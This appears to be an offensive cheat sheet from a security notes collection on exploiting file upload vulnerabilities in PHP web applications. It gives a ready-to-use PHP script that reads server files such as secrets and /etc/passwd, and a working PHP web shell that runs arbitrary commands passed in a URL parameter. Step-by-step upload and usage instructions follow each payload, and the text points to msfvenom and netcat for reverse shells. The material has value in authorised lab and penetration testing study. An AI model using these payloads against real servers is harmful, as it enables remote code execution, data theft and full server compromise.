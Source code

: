 # File Upload Vulnerability Exploitation Cheat Sheet

This document outlines the techniques used to exploit file upload vulnerabilities in web applications, specifically focusing on PHP-based payloads. File upload vulnerabilities allow an attacker to upload malicious files to a server, which can lead to remote code execution (RCE), information disclosure, or complete server compromise. Below are example scripts and explanations for common exploitation techniques.

## PHP Payloads for File Upload Exploitation
### 1. File Read Exploit

This script is used to read the contents of a file on the server. If the server executes uploaded PHP files, an attacker can upload this script and then access it through a browser to read sensitive files.

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

**Use case:**
- Reading sensitive files on the system such as `/etc/passwd`, application configuration files, or any custom path like `/home/carlos/secret`.

**Execution:**
- Upload the script to the web server.
- Navigate to the uploaded file in the browser (e.g., `http://example.com/uploads/shell.php`) to view the file contents.

### 2. Remote Command Execution (RCE) Shell

This PHP script allows the execution of arbitrary system commands by passing them as a query string parameter in the URL.

```php
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>
```

**Use case:**
- Provides a web shell interface for remote command execution on the compromised server.

**Execution:**
1. Upload the script to the vulnerable web application.
2. Access the script in a browser and append the command using the `cmd` parameter:
   ```
   http://example.com/uploads/shell.php?cmd=whoami
   ```
3. Replace `whoami` with any system command (e.g., `ls`, `id`, `cat /etc/passwd`).

**Note:** This method requires the web server to execute PHP files and not sanitize or restrict uploaded content.

---
## Crafting Payloads for Reverse Shells
To craft payloads for a remote shell to connect back to our attacking device, we can refer to [Metasploit – Msfvenom](./Tools%20&%20Commands/Metasploit/msfvenom.md) to craft our payloads.

Once we create our payload with [Metasploit – Msfvenom](./Tools%20&%20Commands/Metasploit/msfvenom.md) and upload it to the server, we can start a remote listener either with [Netcat & Socat](./Tools%20&%20Commands/Netcat/netcat%20socat.md) or by using Metasploits handler at [Metasploit – Msfvenom](./Tools%20&%20Commands/Metasploit/msfvenom.md).    
